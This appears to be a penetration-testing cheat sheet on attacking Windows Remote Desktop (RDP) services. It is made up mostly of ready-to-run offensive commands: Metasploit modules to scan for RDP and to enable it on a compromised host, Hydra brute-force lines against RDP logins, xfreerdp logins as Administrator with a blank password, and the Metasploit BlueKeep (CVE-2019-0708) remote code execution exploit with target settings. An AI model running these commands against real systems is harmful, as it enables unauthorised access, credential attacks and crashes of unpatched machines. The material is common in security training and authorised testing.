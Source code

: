 # RDP

**RDP (Remote Desktop Protocol)**
**Description**: RDP (Remote Desktop Protocol) allows remote graphical access to Windows systems
**Ports**: TCP 3389
**Known Vulnerabilities**: Weak credentials, BlueKeep vulnerability (CVE-2019-0708)

<br>

# Check and Enable RDP

```shell
use auxiliary/scanner/rdp/rdp_scanner # Check for exposed RDP services

# Enabling the RDP service using windows post exploitation module
use post/windows/manage/enable_rdp
set SESSION <session_number>
```

<br>

# Brute-force

```shell
hydra -L <user_wordlists> -P <password_wordlists> rdp://<target_IP>:<port>
hydra -L <user_wordlists> -P <password_wordlists> rdp://<target_IP>:<port> -s <port> # Use -s if port ≠ 3389
```

<br>

# Accessing RDP

```shell
xfreerdp /u:<username> /p:<password> /v:<target_IP>:<port>
# Initiates a Remote Desktop Protocol (RDP) session to the target using provided credentials.
# Useful for accessing Windows systems with RDP enabled.

xfreerdp /v:<target_IP> /u:Administrator /cert:ignore
# This command connects to the Remote Desktop Protocol (RDP) service on the target using the username Administrator with a blank password, while ignoring any certificate warnings.
```

<br>

# BlueKeep (CVE-2019-0708)

```shell
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# Scans for systems vulnerable to BlueKeep (CVE-2019-0708), a critical RDP remote code execution flaw.
# Affects unpatched Windows XP to Windows 7 and Windows Server 2003 to 2008 R2.

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
# Exploits the BlueKeep vulnerability (CVE-2019-0708) to achieve remote code execution via RDP.
# Targets unpatched Windows XP, 7, Server 2003, and 2008 (without Network Level Authentication).
# WARNING: This exploit is unstable and may crash the target system.
set RHOSTS <target_IP>
set target 2 # Windows 7 SP1 / 2008 R2 (x64, VirtualBox 6)
run
```
